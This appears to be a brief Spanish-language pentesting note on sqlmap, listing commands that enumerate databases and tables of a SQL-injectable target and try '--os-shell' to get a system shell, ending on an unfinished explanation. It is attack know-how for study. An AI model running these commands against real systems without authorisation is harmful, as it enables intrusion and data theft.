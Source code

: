 - Tags: #reconocimiento #herramienta #scanner 
---

Esta herramienta sirve para automatizar ataques de sql y para enumerar estas bases de datos

- uso basico y ruidosos

```bash
sqlmap -u <url-objetivo> --dbs --batch --forms
```

- el siguiente paso ya que enumeramos las bases de datos sera enumerar las tablas de la base de datos objetivo
```bash
sqlmap -u <url-objetivo> -D <base de datos> --tables --batch --forms
```

- Si la base de datos es vulnerable a sql injection podremos porvar a ver si nos retorna una shell directamente con el comando 
```bash
sqlmap -u <url-objetivo> --os-shell
```

explicación esto ocurre por que si --is-dba retorna true podemos copiar archivos 